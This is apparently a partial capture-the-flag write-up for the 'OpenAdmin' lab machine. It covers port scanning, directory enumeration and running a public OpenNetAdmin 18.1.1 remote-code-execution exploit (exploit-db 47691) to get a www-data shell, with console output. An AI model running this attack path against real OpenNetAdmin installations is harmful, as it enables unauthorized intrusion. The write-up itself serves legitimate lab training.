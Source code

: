 # recon
- 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

## gobuster
```
/artwork (Status: 301)
/index.html (Status: 200)
/music (Status: 301)
/server-status (Status: 403)
/sierra (Status: 301)
```

http://openadmin.htb/ona/
- OpenNetAdmin 18.1.1
- https://www.exploit-db.com/exploits/47691

# foothold as www-data
```console
kali@kali:~/HTB/openadmin$ ./47691.sh 'http://openadmin.htb/ona/'
./47691.sh: line 8: $'\r': command not found
./47691.sh: line 16: $'\r': command not found
./47691.sh: line 18: $'\r': command not found
./47691.sh: line 23: syntax error near unexpected token `done'
./47691.sh: line 23: `done'
```
to fix this run
```console
kali@kali:~/HTB/openadmin$ dos2unix 47691.sh 
dos2unix: converting file 47691.sh to Unix format...
kali@kali:~/HTB/openadmin$ ./47691.sh 'http://openadmin.htb/ona/'
$ id
$ ls
config
config_dnld.php
dcm.php
images
include
index.php
local
login.php
logout.php
modules
plugins
winc
workspace_plugins
$ pwd
/opt/ona/www
$ cd /home
$ pwd
/opt/ona/www
```
seem like we are trap... cannot `cd` anywhere...
